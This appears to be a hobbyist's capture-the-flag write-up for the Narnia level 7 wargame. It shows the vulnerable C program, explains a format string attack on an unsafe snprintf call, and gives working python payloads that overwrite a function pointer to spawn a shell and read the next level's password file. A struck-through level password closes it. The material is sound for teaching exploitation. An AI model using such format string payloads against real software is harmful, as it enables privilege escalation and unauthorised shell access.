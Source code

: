 # **Let's get this bread**
----------------------------
Let's first check out our code before doing anything

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

int goodfunction();
int hackedfunction();

int vuln(const char *format){
        char buffer[128];
        int (*ptrf)();

        memset(buffer, 0, sizeof(buffer));
        printf("goodfunction() = %p\n", goodfunction);
        printf("hackedfunction() = %p\n\n", hackedfunction);

        ptrf = goodfunction;
        printf("before : ptrf() = %p (%p)\n", ptrf, &ptrf);

        printf("I guess you want to come to the hackedfunction...\n");
        sleep(2);
        ptrf = goodfunction;

        snprintf(buffer, sizeof buffer, format);

        return ptrf();
}

int main(int argc, char **argv){
        if (argc <= 1){
                fprintf(stderr, "Usage: %s <buffer>\n", argv[0]);
                exit(-1);
        }
        exit(vuln(argv[1]));
}

int goodfunction(){
        printf("Welcome to the goodfunction, but i said the Hackedfunction..\n");
        fflush(stdout);

        return 0;
}

int hackedfunction(){
        printf("Way to go!!!!");
            fflush(stdout);
        setreuid(geteuid(),geteuid());
        system("/bin/sh");

        return 0;
}
```

### What's all that bulls\*\*t???
Alright so i need to change the command call from the goodFunction to the HackedOne! The logic is quite easy but how am i supposed to do that??

First I do get a lot of informations about all my try whenever i'm trying through the vuln func, so pretty cool thx u :)

Basically it assign to the "ptrf" call the good function, but we do want to change this data to introduce our hackedOne
All the time I do the same thing --> first compare the attacks you know with the code and look if they are vulnerabilities that shows up, and here I point out a Format String Attack.
We've already use this one before so it could be pretty easy! (I hope)

First here is the OWASP page about this attack *(realllllly useful to understand and use it properly)*
	-[Owasp](https://owasp.org/www-community/attacks/Format_string_attack)
So why do I have a vulnerability to this kind of attack??
Basically look at this line:

```c
snprintf(buffer, sizeof buffer, format); //Remember that we should normally use the %s to get protected to this attack
```

So we do have an idea on how to attack it, let's gather some informations!!



## The theory part, or the "too much things to read part" !!

Ok so let's dig down a bit, after checking owasp, I found out that I haven't enough information to do this attack so I turned to some other ressources. And here is one amazing resources you can use: *"Grey Hat Hacking"*, the books are just amazing and full of informations !!!
	-[Third Edition of this Book in txt](https://archive.org/stream/GrayHatHackingThirdEdition/Gray+Hat+Hacking%2C+Third+Edition_djvu.txt)
	-[More Interactive and Readable version ..but there is a lot of annoying pop up..](https://apprize.best/security/ethical_1/12.html)

Yes it is in txt, because with a ctrl-f you can get you're informations way quicker even if it's goddamn ugly
Let's search for format string and then we find about a table 12-2!! Ok apparently it permits us to calcul the text we need to send to exploit this Format String Attack properly. So we can "encode" the address of the hackedFunc and send it (we'll do that later). But where will i send it?


## which data should i use?

Effectively we actually have nothing to work with and that's a shitty thing.
Let's look at the table:
![Table 12-2](https://apprize.best/security/ethical_1/ethical_1.files/image385.jpg)

We do need:
	-An address
	-An HOB and a LOB (basically the hackedFunc splitted in to part)
	-and the Offset!

So let's rerun narnia7 with some random data --> we got those results:

```bash
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd658)
I guess you want to come to the hackedfunction...
Welcome to the goodfunction, but i said the Hackedfunction..
```

Let's keep the "cool and useful" datas:
	-HOB & LOB are determined from 0x8048724 --> HOB=0x0804 & LOB=0x8724
	-the return adress --> picked from ptrf() --> addr=0xffffd658
	-the offset --> trickiest part, basically i'll run an ltrace, even if it is in reverse you just need to count from your last \x41 to the first word of your return address, 2-4-6 ALRIGHT WE HAVE 6 as offset
*snprintf("AAAA80486ff414141413834303834666"..., 128, "AAAA%x%x%x%x", 0x80486ff, 0x41414141, 0x38343038, 0x34666636) = 35,
if we have a closer look, from the last 41 of 0x41414141 and the ff from our function 0x80486ff (who's the good function) there is an offset of 6words*

so now we have everything to calculate the return stuff :)
So our HOB < LOB so let's follow this pattern:
addr+2	addr == 0xffffd660 0xffffd658 soit \x5a\xd6\xff\xff\x58\xd6\xff\xff 
HOB-8 == 7FC and then the to dec = 2044 and then the transformation --> %2044x
%offset$hn == %6$hn
LOB - HOB == 7F20 --> decimal = 32544 --> transformed == %32544x
offset+1 == 7 --> transformed == %7$hn

let's get it on one line: \x5a\xd6\xff\xff\x58\xd6\xff\xff %.2044x%6$hn%.32544x%7$hn
Alright so the python to exec should be: $(python -c'print("\x5a\xd6\xff\xff\x58\xd6\xff\xff%.2044x%6$hn%.32544x%7$hn")')

And when i try it, A seg fault, but i see that my address change from 0xffffd658 to 0xffffd638
SO let's just change our address value to our new value:
$(python -c'print("\x3a\xd6\xff\xff\x38\xd6\xff\xff%2044x%6$hn%32544x%7$hn")')




Honestly at this point, i was lost, the technique i was pretty sure that would have worked, doesn't seems to work at all and i was done lol.
I keep it like that for like 1w, and i've decided to try another technique
But i wanted to keep this technique here because I'm pretty sure in another situation it could help me so I'll keep it there



**IF ANYONE HAVE AN EXPLANATION ABOUT WHY IT DOESNT WORK PLS CONTACT ME!!!!**



# **The reborn**
---------------------------------- 

Ok so let's just keep it way simplier than all that stuff!!
Basically --> WHAT DO I WANT TO DO ? 
I want to place my hex call of the hackFunction to the pllace the program is supposed to call the right func
Basically i tried to put the hex of the address and just after the hex of the hackFunc
But what about the technique we used last time in narnia5 ?? Let's just convert the hex to dec and put it as a %size x and tell him to take a %1$n at the end
Let's do some convert !!
Alright so we take our hackdFunc 0x8048724 and let's just -4 because of the address we put first
convert all in dec --> 134514464, so we have addr%134514464x%1$n

Let's finally test this --> \x58\xd6\xff\xff%134514464d%1$hn
And .... Seg fault..., but the address changed so let's just change it:
\x48\xd6\xff\xff%134514464d%1$hn
AAAAAANNNND IT doesnt work ......
But as i remember a %n take half the size of an address so let's just change it to a double sized like so %2$hn
And it should work now!!

THANK GOOOOD IT WORKED

```bash
./narnia7 $(python -c 'print "\x48\xd6\xff\xff%134514464d%2$hn"')
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd648)
I guess you want to come to the hackedfunction...
Way to go!!!!$ cat /etc/narnia_pass/narnia8
```

~~**mohthuphog**~~

let's have another coffee ~~i deserved it~~